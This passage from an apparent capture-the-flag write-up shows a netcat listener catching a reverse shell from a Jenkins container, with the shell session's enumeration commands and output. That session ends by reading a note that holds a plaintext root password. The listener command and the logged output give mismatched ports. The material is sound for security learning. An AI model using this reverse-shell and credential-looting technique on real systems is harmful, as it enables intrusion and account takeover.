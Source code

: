 - The next step is to set up a Netcat listener, which will catch the reverse shell when it is executed by the victim host, using the following flags:

> -    -l to listen for incoming connections
> -    -v for verbose output
> -    -n to skip the DNS lookup
> -    -p to specify the port to listen on

**CMD:**

```bash
$nc -lnvp 1234                                                                                                
listening on [any] 1111 ...
connect to [10.9.35.72] from (UNKNOWN) [10.10.64.173] 54690
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
whoami
jenkins
ls -la
total 84
drwxr-xr-x   1 root root 4096 Aug  3  2020 .
drwxr-xr-x   1 root root 4096 Aug  3  2020 ..
-rwxr-xr-x   1 root root    0 Aug  3  2020 .dockerenv
drwxr-xr-x   1 root root 4096 Aug  3  2020 bin
drwxr-xr-x   2 root root 4096 Sep  8  2019 boot
drwxr-xr-x   5 root root  340 Jan  7 12:02 dev
drwxr-xr-x   1 root root 4096 Aug  3  2020 etc
drwxr-xr-x   2 root root 4096 Sep  8  2019 home
drwxr-xr-x   1 root root 4096 Jan 30  2020 lib
drwxr-xr-x   2 root root 4096 Jan 30  2020 lib64
drwxr-xr-x   2 root root 4096 Jan 30  2020 media
drwxr-xr-x   2 root root 4096 Jan 30  2020 mnt
drwxr-xr-x   1 root root 4096 Aug  3  2020 opt
dr-xr-xr-x 119 root root    0 Jan  7 12:02 proc
drwx------   1 root root 4096 Aug  3  2020 root
drwxr-xr-x   3 root root 4096 Jan 30  2020 run
drwxr-xr-x   1 root root 4096 Jul 28  2020 sbin
drwxr-xr-x   2 root root 4096 Jan 30  2020 srv
dr-xr-xr-x  13 root root    0 Jan  7 12:02 sys
drwxrwxrwt   1 root root 4096 Jan  7 12:02 tmp
drwxr-xr-x   1 root root 4096 Jan 30  2020 usr
drwxr-xr-x   1 root root 4096 Jul 28  2020 var
cd /opt
ls -la
total 12
drwxr-xr-x 1 root root 4096 Aug  3  2020 .
drwxr-xr-x 1 root root 4096 Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```
